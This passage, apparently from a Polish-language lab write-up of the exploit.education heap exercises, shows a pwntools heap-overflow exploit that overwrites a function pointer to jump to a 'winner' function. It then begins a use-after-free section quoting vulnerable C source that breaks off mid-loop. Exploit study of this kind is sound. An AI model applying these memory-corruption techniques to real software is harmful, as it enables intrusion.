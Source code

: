 Widzę na stercie dużo liter A. Mając dość dużo szczęścia udało mi się nadpisać idealną ilość bajtów. Na rysunku zaznaczony jest chunk data. Potem znajdują się headery chunku fp.

Wystarczy nadpisać 16 bajtów więcej, a następnie podać adres funkcji do której chcę skoczyć.

![img_1.png](img/img_1.png)

Funkcja winner jest pod adresem `0x80491b2`.

Exploit wygląda następująco:

```python
from pwn import *


str = b'a'*80+b'\xb2\x91\x04\x08'

p = process(["./vuln.o",str])

p.interactive()


```

Exploit działa.

![img_2.png](img/img_2.png)

#### 2.2 use-after-free

Przechodząc do trudniejszego zadania zajmę się - `heap two` z tej samej strony - to prosty exploit typu use-after-free.

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
char line[128];

printf("%s\n", BANNER);

while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);
```